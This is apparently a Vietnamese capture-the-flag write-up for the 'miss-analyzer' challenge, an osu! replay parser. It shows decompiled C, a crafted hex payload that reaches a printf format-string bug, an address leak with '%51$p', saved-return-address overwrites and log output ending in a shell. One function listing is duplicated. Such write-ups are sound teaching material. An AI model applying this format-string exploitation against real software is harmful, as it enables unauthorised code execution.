 # write up miss-analyzer 

- ở bài này đầu tiên phải bắt đầu với hàm hexs2bin
```c
size = hexs2bin(v3, &pointerofbuff);
```
- hàm này có nhiệm vụ chuyển hết các kết quả mà chúng ta nhập vào thành dạng như này
- ví dụ aaaaaabbbbbbbcccccc thành  0xccccbbbbbbabaaaa hoặc  1234abcd6789 thành 0x8967cdab3412
- sau đó mang nó đem đi thực hiện các thao tác ở các hàm khác
- nhưng các ký tự chỉ được nhập trong vùng cho phép

```c
__int64 __fastcall hexchr2bin(char buff, _BYTE *container)
{
  if ( !container )
    return 0LL;
  if ( buff <= '/' || buff > '9' )
  {
    if ( buff <= '@' || buff > 'F' )
    {
      if ( buff <= '`' || buff > 'f' )
        return 0LL;
      *container = buff - 87;
    }
    else
    {
      *container = buff - 55;
    }
  }
  else
  {
    *container = buff - 48;
  }
  return 1LL;
}__int64 __fastcall hexchr2bin(char buff, _BYTE *container)
{
  if ( !container )
    return 0LL;
  if ( buff <= '/' || buff > '9' )
  {
    if ( buff <= '@' || buff > 'F' )
    {
      if ( buff <= '`' || buff > 'f' )
        return 0LL;
      *container = buff - 87;
    }
    else
    {
      *container = buff - 55;
    }
  }
  else
  {
    *container = buff - 48;
  }
  return 1LL;
}
```
- và số ký tự nhập vào phải là số chẵn nếu không chương trình sẽ dừng tại đây
```c
 if ( !size )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
```
- nó thực hiện check qua cái này: 
```c
if ( (size & 1) != 0 )
    return 0LL;
```
- tiếp theo là hàm này

```c
__int64 __fastcall read_byte(_QWORD *pointerofbuff, _QWORD *size)
{
  unsigned __int8 incbuff; // [rsp+1Fh] [rbp-1h]

  if ( !*size )
  {
    puts("Error: failed to read replay");
    exit(1);
  }
  incbuff = *(_BYTE *)(*pointerofbuff)++;
  --*size;
  return incbuff;
}
```
- hàm này sẽ cộng địa chỉ được chứa trong pointerofbuff là buff lên 1 đơn vị và giảm size xuống 1 đơn vị
- vì vậy sau mỗi lần chạy nó sẽ giảm size xuống và số ký tự đc chứa trong địa chỉ ở trong pointerofbuff cũng giảm theo
```c
 consume_bytes(&pointerofbuff, &size, 4);
```
với hàm này cũng có cơ chế tương tự read_bytes nhưng mà ta có thể thay đổi số bytes, số bytes đó sẽ giảm size xuống và tăng giá trị của pointerofbuff theo số bytes đó 
- thông qua các cơ chế trên thì ta có thể nhập bytes cho phù hợp để vượt qua các hàm trên thông qua việc nhập ký tự là 8 bytes a đầu, chủ yếu là các hàm read_bytes và consume_bytes
```c
puts("Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):");
    buff = 0LL;
    n = 0LL;
    if ( getline(&buff, &n, stdin) <= 0 )
      break;
    buff[strcspn(buff, "\n")] = 0;
    if ( !*buff )
      break;
    size = hexs2bin(buff, &pointerofbuff);
    if ( !size )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
    puts("\n=~= miss-analyzer =~=");
    choice = read_byte(&pointerofbuff, &size);
    if ( choice )
    {
      switch ( choice )
      {
        case 1:
          puts("Mode: osu!taiko");
          break;
        case 2:
          puts("Mode: osu!catch");
          break;
        case 3:
          puts("Mode: osu!mania");
          break;
      }
    }
    else
    {
      puts("Mode: osu!");
    }
    consume_bytes(&pointerofbuff, &size, 4);
```
- để có thể vượt qua hàm read_string thì ta phải nhập thêm 2 bytes a nữa cộng thêm bytes 0b
```c
 result = (_BYTE *)read_byte(buff, size);
  if ( (_BYTE)result )
  {
    if ( (_BYTE)result != 0xB )
    {
      puts("Error: failed to read string");
      exit(1);
    }
```
- để vượt các vòng lặp dưới nữa của hàm nàyvà có thể điều khiển số bytes nhập vào biến format ta có thể cộng thêm chuỗi nhập vào ban đầu là số nhưng phải bao gồm 2 chữ số
```c
   v10 = 0;
    for ( i = 0; ; i += 7 )
    {
      byte = read_byte(buff, size);
      v10 |= (byte & 127) << i;
      if ( byte >= 0 )
        break;
    }
    for ( j = 0; ; ++j )
    {
      v6 = a4;
      if ( a4 > v10 )
        v6 = v10;
      if ( v6 <= j )
        break;
      a3[j] = read_byte(buff, size);
    }
    while ( v10 > j )
```
- đây chính là nơi mà tạo ra size cho việc nhập format
- dữ liệu sẽ được nhập vào mảng format 1 cách lần lượt
```c
byte = read_byte(buff, size);
      v10 |= (byte & 127) << i;

```
```c
  read_string(&pointerofbuff, &size, format, '\xFF');
    printf("Hash: %s\n", format);
    read_string(&pointerofbuff, &size, format, 0xFFu);
    printf("Player name: ");
    printf(format);
```
- ở trong payload sẽ bao gồm việc vượt qua các hàm trên để đến được formatstring
```python
b'a'*10 +  b'0b' +b'08' + b'aabaaaaaabaaaaaa' + b'0b' + b'08' +  b'2535312470000000'
```
- format string sẽ được dịch lại tương tự như cách dịch của hàm hexs2bin: 2535312470000000
- sau khi nhập vào thì sẽ leak được địa chỉ và quay lại 1 vòng lặp mới
```assembly
  0x401928 <main+607>    mov    eax, 0
   0x40192d <main+612>    call   printf@plt                      <printf@plt>
 
   0x401932 <main+617>    lea    rax, [rbp - 0x120]
   0x401939 <main+624>    mov    rdi, rax
   0x40193c <main+627>    mov    eax, 0
 ► 0x401941 <main+632>    call   printf@plt                      <printf@plt>
        format: 0x7fffffffe4e0 ◂— 0x7024313525 /* '%51$p' */
        vararg: 0x7fffffffc380 ◂— 0x6e20726579616c50 ('Player n')
 
   0x401946 <main+637>    mov    edi, 0xa
   0x40194b <main+642>    call   putchar@plt                      <putchar@plt>
 
   0x401950 <main+647>    lea    rdx, [rbp - 0x120]
   0x401957 <main+654>    lea    rsi, [rbp - 0x130]
   0x40195e <main+661>    lea    rax, [rbp - 0x128]
```
- sau khi leak được địa chỉ thì đến bước ghi payload, em sẽ có 3 địa chỉ để ghi vào saved-rip, mỗi địa chỉ ghi 3 lần vì thế em cần viết hàm để ghi qua formatstring
- vì hàm main lặp lại nên có thể ghi nhiều lần tùy ý
- sau khi ghi xong và thoát khỏi vòng lặp thì em có thể chạy shell
```c
[*] 0x2563343139383525
[*] 0x202020206e682436
[*] this is part 2 of addr 0x7fffffffe620: 0xf7c5
[*] this is package part 2: 0xe622
[*] Switching to interactive mode

Error: failed to decode hex
$ ls
Dockerfile    analyzer_patched        analyzer_patched.id2  ld-2.35.so
analyzer      analyzer_patched.i64  analyzer_patched.nam  libc.so.6
analyzer.i64  analyzer_patched.id0  analyzer_patched.til  miss.md
analyzer.py   analyzer_patched.id1  flag.txt          start-docker.sh
```
